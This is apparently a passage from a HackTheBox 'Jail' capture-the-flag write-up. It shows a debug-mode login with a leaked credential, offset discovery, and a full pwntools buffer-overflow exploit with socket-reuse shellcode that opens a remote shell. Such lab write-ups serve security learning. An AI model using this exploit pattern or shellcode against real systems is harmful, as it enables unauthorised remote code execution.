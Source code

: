 We visit the directory and find out some `c` files and `binaries`.
![[Pasted image 20210722012455.png]]
We could download the files onto our box.

We have `compile.sh` which compiles `jail.c` to make the `jail` binary which is vulnerable to buffer overflow attack.
![[Pasted image 20210722012939.png]]
The code also discloses that it expects username : `admin` and password : `1974jailbreak!` to turn on debug mode on.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail/jailuser]
└──╼ # nc 10.10.10.34 7411
OK Ready. Send USER command.
DEBUG
OK DEBUG mode on.
USER admin
OK Send PASS command.
PASS 1974jailbreak!
Debug: userpass buffer @ 0xffffd610
OK Authentication success. Send command
```

We see that we get a `SEGFAULT` when username is `admin` and password is somthing big.
![[Pasted image 20210722014343.png]]

We get the offset from getting the data in `$eip`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail]
└──╼ # msf-pattern_offset -q 62413961
[*] Exact match at offset 28
```

The box has a firewall which would not allow us to get a shell by using a classic reverse shell using `msfvenom`.
We have to us an socket reuse payload.

The BoF Exploit.
```python
from pwn import *
context(os="linux", arch="i386")
host = "10.10.10.34"
port = "7411"
junk = "A" * 28
memory_add = p32(0xffffd610 + 32)
buf = ""
buf += "\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf += "\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf += "\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf += "\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf += "\x89\xe3\x31\xc9\xcd\x80"
p = remote(host,port)
p.recvuntil("OK Ready. Send USER command.")
p.sendline("DEBUG")
p.recvuntil("OK DEBUG mode on.")
p.sendline("USER admin")
p.recvuntil("OK Send PASS command.")
p.sendline("PASS " + junk + memory_add +  buf)
p.interactive()
```
